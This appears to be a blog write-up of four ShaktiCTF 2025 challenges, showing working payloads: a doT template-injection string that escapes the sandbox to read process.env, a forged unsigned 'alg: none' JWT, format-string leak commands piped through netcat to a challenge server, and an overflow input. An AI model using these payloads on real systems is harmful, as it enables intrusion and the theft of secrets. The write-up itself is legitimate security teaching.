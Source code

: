 ```yaml
---
title: "ShaktiCTF | 2025 | Writeups"
description: "A Jeopardy style online Capture The Flag competition to upbring and promote women in the industry."
pubDate: "2025-07-30"
tags: ["pwn", "web", "shaktictf"]
---
```


ShaktiCTF | 2025 | Writeups
===========================

**Templateception — Web**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*jec9C57A3TBJI4YsjkGrkg.png)

Source Code Analysis
--------------------

We’re given the Node.js backend which does the following:

*   Accepts a filename, template (doT), and config via POST to `/upload`.
*   Saves the template, and renders it later at `/render/:file`.
*   Passes `{ name: "CTF Player" }` as the rendering context for templates.
*   Also renders the flag using EJS like this:
*   `res.render('rendered', { output, flag })`

The rendered HTML includes:

```
<pre><%= output %></pre>  
<script>  
  var FLAG = "<%= flag %>";  
</script>
```

So, the flag **isn’t rendered directly** — it’s only accessible as a JavaScript variable called `FLAG`.

The templating engine used is `doT.js`, which supports JavaScript execution inside templates.  
We can inject arbitrary JavaScript by using this pattern:

```
{{=this.constructor.constructor("/* JS here */")()}}
```

This effectively breaks the sandbox and gives us access to Node internals, including environment variables!

To read the environment variable where the flag is stored, we submit the following as the template:

```
{{=this.constructor.constructor("return process.env")().FLAG}}
```

**Config:**

```
{}
```

**Filename:** `exploit.dot` (any name works)

Visiting `/render/exploit.dot` rendered:

```
shaktictf{***********}
```

The flag was successfully read from the server’s environment using template injection!

---

**Hooman — Web**
----

![](https://miro.medium.com/v2/resize:fit:638/format:webp/1*eGVG25dEk90_z4EtVrrbig.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ctafm64Hu8dfagcexTYo0Q.png)

We were asked to “prove” we’re a hooman to access `/hooman`, which reveals the flag. The server gives us a JWT after login, but it always has:

```
{  
  "are_you_hooman": false  
}
```

And the `/hooman` route only lets us in if:

```
"are_you_hooman": true
```

In the backend, JWTs are decoded with **`verify_signature=False**`**:

```
jwt.decode(token, key=None, options={"verify_signature": False})
```

This means the server accepts **any token**, even unsigned ones.

We forged our own JWT:

```
Header:  {"alg": "none", "typ": "JWT"}  
Payload: {"username": "admin", "are_you_hooman": true}
```

Final token:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXJlX3lvdV9ob29tYW4iOnRydWV9.
```

➡️ Set it as a cookie named `token`.

Visiting `/hooman` with the forged token reveals:

> shaktictf{<real\_flag>}

---

**Secret Mission — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*yWlOGJN8lc13tyokjI3wUQ.png)

> _Welcome to the Armed Detective Agency — the most famous detective agency in Yokohama!  
> A chest full of ability crystals has been lost somewhere in this binary.  
> Can you help us find it?_

We’re provided with an ELF binary: `mission`  
Running it connects us to a storyline, and prompts us with two questions:

*   Do you accept the mission? (Y/n)
*   What’s your name?

If we say “Y”, and give any input as a name(eg: h4ch3r)—it displays: Looking forward to working with you h4ch3r

Initial Recon:
--------------

```
$ file mission  
ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped  
  
$ checksec --file=mission  
RELRO           STACK CANARY      NX            PIE       
Full RELRO      Canary found      NX enabled    PIE enabled
```

The binary has all major protections:  
PIE: enabled  
NX: enabled  
Canary: found

This points toward a **stack-based buffer overflow** or similar.

Fuzzing input:
--------------

```
$ python3 -c "print('Y\n' + 'A'*200)" | ./mission
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

Classic stack overflow confirmed.  
But because there’s a **stack canary**, overflowing won’t be trivial.

Let’s try a format string vulnerability instead:

```
$ python3 -c "print('Y\n' + '%p.'*20)" | ./mission  
...  
Looking forward to working with you 0x7ffe19f4e620.(nil).(nil).0xa....
```

It **echoes back** our name using `printf(name)`, NOT `printf("%s", name)`, which makes it vulnerable!

**Try it on the actual server:**

```
$ python3 -c "print('Y\n' + '%p.'*30)" | nc 43.205.113.100 8576
```

Output (trimmed):

```
Looking forward to working with you ...  
0x746369746b616873.0x58655f3368747b66.0x5f64337463407274.0x656974696c696240....
```

Python script to decode the hex values:

```
leaked = [  
    0x746369746b616873,  
    0x58655f3368747b66,  
    0x5f64337463407274,  
    0x656974696c696240,  
    0x6873316e40765f35,  
    0x3368745f7475625f,  
    0x33725f67406c665f,  
    0x7d736e31406d  
]  
  
s = b''.join(p.to_bytes(8, 'little') for p in leaked)  
print(s.decode(errors="ignore"))
```

Running this python code renders the flag.

---

**Let the TV Buffer — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pIh8nh1nL05WpZ2Kk0skow.png)

> _The TV usually keeps buffering. It isn’t doing that now for some reason. I dunno why.  
> I need to show my cool TV fixing skills for the upcoming science fair!  
> I wonder what I can do to put it back to how it originally was…_

Running the binary locally:

```
./let_the_tv_buffer
```

Gives us:

```
Reply >>
```

After entering a long input:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The binary responded:

```
The TV is back to buffering! Thanks!  
...wait. It is showing some sorta secret code.  
shaktictf{REDACTED}
```

---

You can check out more of my work here:

*   🔗 **Medium:** [medium.com/@bl0ss0mx5](https://medium.com/@bl0ss0mx5)
*   📝 **Blog:** [bl0ss0mx5.netlify.app](https://bl0ss0mx5.netlify.app/)
